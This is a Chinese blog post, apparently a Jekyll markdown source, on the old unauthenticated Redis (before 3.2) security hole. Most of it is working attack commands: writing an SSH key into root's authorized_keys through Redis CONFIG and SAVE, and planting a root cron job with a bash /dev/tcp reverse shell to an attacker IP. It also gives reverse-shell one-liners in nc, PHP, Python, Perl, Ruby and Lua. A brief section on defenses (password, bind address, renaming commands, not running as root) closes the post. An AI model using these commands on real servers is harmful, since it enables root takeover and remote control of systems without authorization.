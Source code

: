 ```yaml
---
layout: post
title: Linux - Old Redis Security Hole
category: default
---
```



低版本Redis安全漏洞，标题不知道是否正确
排查出的安全隐患，基本上不会存在了

# 事件结果
redis被远程登录，所属服务器被获取root权限

# 事故环境
* 对于低于3.2.0的Redis版本，使用默认配置
> + 没有设置密码
> + 默认配置中redis会监听 0.0.0.0:6379，接收任意地址的连接
> + 默认配置中config命令都没有限制
* 使用root运行redis-server
* 没有正确设置iptables


注：redis 从3.2 开始有protected-mode，如果用默认配置启动只能本机访问，要求需要配置密码或者限定地址。可以避免安全事故发生


# 攻击方式
目标是获取系统root权限
## 保存公钥实现免密root登录
1. 准备本机公钥
```bash
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub ;echo -e "\n\n") > pub.txt
``` 
2. 将公钥内容保存进redis，由于没有密码又没有限制IP，所以直接就可以登录了。。
```bash
cat pub.txt | ./redis-cli -h 192.168.1.1 -x set pubrsa
```
3. 登录redis进行操作
```bash
./redis-cli -h 192.168.1.1
#### redis
# 设置保存路径
config set dir /root/.ssh
# 修改名称
config set dbfilename "authorized_keys"
# 保存数据库全部内容到上述文件
save
# 退出redis
#### linux
ssh -i id_rsa root@192.168.1.1
# 即可直接登录
```


## 实现root权限的反弹Shell
```bash
#### redis
# 添加定时任务，主动向攻击者发起链接
config set dir /var/spool/cron
config set dbfilename root
set -.- "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.1.2/9999 0>&1\n\n\n"
save
#### linux
nc -l 9999 -v
# 提示：bash: no job control in this shell
```

# 反弹Shell原理介绍
```bash
bash -i >& /dev/tcp/192.168.1.21/9999 0>&1
```
利用linux系统一切皆文件的特性，在服务端执行上述命令，服务端主动向攻击端发起请求(角色关系转换)，再通过对输入输出的重定向，使得原来应该是输出结果的地方变成能够输入命令。

### 命令解析


| 命令 | 功能 |
|:---|:---|
|bash -i|用交互模式打开bash，类似在终端中运行了python|
|>&|> 是将标准输出定向到文件，标准错误会将在终端打印。此处添加 & 是将标准错误，重定向到标准输出|
|/dev/tcp/192.168.1.21/9999|打开或者写入文件，相当于向指定IP端口发起一个socket调用，并将某个内容发送过去。正常的使用方式：Server执行 nc -l 9999 -v 监听9999端口，Client执行 echo "test" > 192.168.1.21/9999，Serve|
|0>&1 或 0<&1|将标准输入重定向到标准输出，此处是把输入定向到攻击端的监听程序。如果没有这个的话，只能在服务端输入命令，在攻击端显示命令和结果|

### 实现方式

我们知道，上述的命令是不能通过正常渠道到被攻击机器上执行的，如果能直接登录，还反弹shell干啥。。
所以攻击的关键不是这个命令本身，而是如何通过非正常渠道让这个命令或者这种命令在被攻击端运行，上文提到的redis就是一个媒介。
其他的反弹Shell方式，大致原理都和上面的相同，只不过用不同的方式触发。通常网站或者Web服务上会运行脚本语言，容易被攻击，比如python中使用了eval等

1. nc + 管道方式，通常也需要登录
+ 攻击端监听两个端口，分别运行 `nc -l 1234 -v 和 nc -l 4321 -v`
+ 服务端运行 `nc ip 1234 | /bin/bash | nc ip 4321`
+ 则可以在攻击端 1234 端口输入命令，在4321端口看到执行结果
2. php
+ `php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
3. python
+ `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
4. perl
+ `perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
5. ruby
+ `ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`
6. lua
+ `lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"`


# 防御方法
* 清理crontab，.ssh中的各种密钥，使用history排查造成的影响
* 不要用root启动redis
* 添加iptables
* 对redis进行升级
* 修改redis的配置文件
> + 禁用危险命令 rename-command FLUSHALL ""   ，类似的还有 FLUSHDB CONFIG EVAL 等
> + 添加密码 requirepass mypassword
> + 端口绑定到固定IP，如 bind 127.0.0.1


